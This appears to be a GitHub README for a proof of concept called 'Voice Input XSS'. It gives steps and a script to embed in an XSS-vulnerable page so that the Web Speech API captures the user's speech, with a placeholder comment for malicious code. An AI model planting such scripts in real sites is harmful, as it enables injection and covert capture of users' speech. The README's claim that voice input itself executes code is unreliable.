

# Voice Input XSS

This proof of concept demonstrates how an attacker can exploit a Cross-Site Scripting (XSS) vulnerability using voice input. By leveraging the Web Speech API, an attacker can inject and execute malicious JavaScript code into a vulnerable web page when the user interacts with it using voice commands.

## Description

The provided script utilizes the Web Speech API to listen for voice input from the user. When the recognition detects speech, it captures the transcript and displays it in an alert dialog box. However, an attacker could modify this script to execute arbitrary JavaScript code instead of displaying the transcript.


## Proof of concept
<br>




## Steps to Reproduce

1. Create or identify a web page vulnerable to XSS.
2. Embed the following JavaScript code into the vulnerable web page:

```javascript
<script>
const recognition = new window.webkitSpeechRecognition();
recognition.lang = 'en-US';
recognition.interimResults = false;
recognition.maxAlternatives = 1;

recognition.onresult = function(event) {
    const transcript = event.results[0][0].transcript;
    // Inject malicious code here instead of displaying the transcript
    alert('Transcript: ' + transcript);
    recognition.stop();
};

recognition.onerror = function(event) {
    console.error('Speech recognition error:', event.error);
};

window.addEventListener('DOMContentLoaded', function() {
    recognition.start();
});
</script>
```

3. Ensure that the web page allows access to the Web Speech API.
4. Visit the web page using a browser that supports the Web Speech API (e.g., Google Chrome).
5. Interact with the web page by speaking into the microphone. The script will capture your speech and execute any injected JavaScript code.
